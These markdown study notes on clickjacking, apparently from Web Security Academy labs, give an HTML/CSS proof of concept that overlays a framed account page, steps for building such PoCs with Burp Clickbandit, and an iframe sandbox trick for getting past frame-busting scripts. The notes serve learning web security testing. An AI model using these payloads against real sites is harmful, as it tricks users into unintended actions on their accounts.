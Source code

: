### Clickjacking

**Clickjacking PoC:**
```
<style>
    iframe {
        position:relative;
        width:99vw;
        height: 99vh;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:400px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a96005403001104812e3ea900bf0098.web-security-academy.net/my-account"></iframe>
```

**Clickbandit:**
- Used to automatically generate PoCs
- Steps:
  - Burp Menu -> Clickbandit
  - Paste the scripts in the JS console
  - Click start, perform actions, click finish to record
  - Save

**Scripts Blocking Iframes**
- Sometimes websites have scripts checking to make sure iframes are visible and the main page is the top menu
- Can usually be circumvented using iframe `sandbox` attribute
  - `<iframe id="victim_website" src="https://{vulnerable_site}.com" sandbox="allow-forms"></iframe>`
  - Clickbandit supports this